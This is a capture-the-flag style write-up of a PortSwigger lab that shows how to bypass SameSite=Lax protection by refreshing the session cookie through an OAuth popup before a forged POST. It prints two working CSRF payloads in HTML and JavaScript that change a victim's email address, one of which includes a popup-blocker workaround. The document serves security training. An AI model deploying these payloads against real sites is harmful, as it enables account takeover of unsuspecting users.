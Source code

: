 # CSRF - SameSite Lax bypass via cookie refresh

## 📌 Lab Details
- **Title**: SameSite Lax bypass via cookie refresh
- **Difficulty**: Practitioner
- **Category**: Cross-site Request Forgery
- **Lab URL**: https://portswigger.net/academy/labs/launch/45d14a50b45f44eb45dfc4a06b898d985a5bace7f1c3f943697338608838388e?referrer=%2fweb-security%2fcsrf%2fbypassing-samesite-restrictions%2flab-samesite-strict-bypass-via-cookie-refresh

## 🔍 Summary
This lab shows how **SameSite=Lax can be bypassed using an OAuth login flow to refresh the session cookie** just before performing a **CSRF attack**. Since SameSite=Lax allows cookies on **top-level GET navigations**, using a **social login popup immediately before a cross-site POST** allows the fresh session cookie to be included in the CSRF request, changing the victim’s email.

## 🛠 Steps to Solve
1. Log in to the given account.
2. Study the **POST change-email** request to observe that no **CSRF** tokens are being used.
3. Study the **GET /oauth-callback?code=[...]** request to observe that no `SameSite` restriction is used which means that the site will use default `SameSite=Lax` restriciton.
4. Attempt a basic CSRF attack:
   ```sh
   <script>
    history.pushState('', '', '/')
    </script>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
    </form>
    <script>
    document.forms[0].submit();
    </script>
    ```
5. Store and view the exploit yourself. If it has been longer than two minutes, you will be logged in via **OAuth** flow. In this case repeat the step immediately.
6. If you logged in less than two minutes ago, the attack is successful and your email id is changed.
7. Crafting the final **CSRF** attack and bypassing **popup blocker**:
   ```sh
   <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
    </form>
    <p>Click anywhere on the page</p>
    <script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
    </script>
    ```
8. Deliver the exploit to the victim and solve the lab.
   
## 📖 Key Takeaways
- **SameSite=Lax** allows cookies on top-level navigations (`GET`) but blocks them on cross-site `POST` unless the cookie is fresh.
- By forcing the victim to **click (user interaction)**, triggering a social login OAuth popup, you refresh the session cookie in the victim’s browser.
- Immediately after, you send a **cross-site POST CSRF request**, which now includes the refreshed cookie, allowing the CSRF to succeed.
- **Timing + OAuth popup + user click = bypass SameSite=Lax for CSRF**.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/724728f9-04d9-45e4-9494-f2052ed8f4e6)
![image](https://github.com/user-attachments/assets/788b2c0d-45f6-4e44-be6b-73c74e52f61e)
![image](https://github.com/user-attachments/assets/357e0f9f-ed63-4569-afe3-6824ce1043ee)
![image](https://github.com/user-attachments/assets/09c75f4d-f3f4-4f8e-a0dd-1271acd84ee2)
![image](https://github.com/user-attachments/assets/ce4fce7f-4281-4a65-b5a1-55476223d708)
![image](https://github.com/user-attachments/assets/d8462655-56b1-4914-b326-b0d70e9a6e06)
![image](https://github.com/user-attachments/assets/854b453f-fcce-492a-80e2-641961bc2018)
![image](https://github.com/user-attachments/assets/86ea314a-4693-40b2-b781-40f1abb10579)
![image](https://github.com/user-attachments/assets/a6eaf598-adc3-45e9-aead-bb2f72af0210)

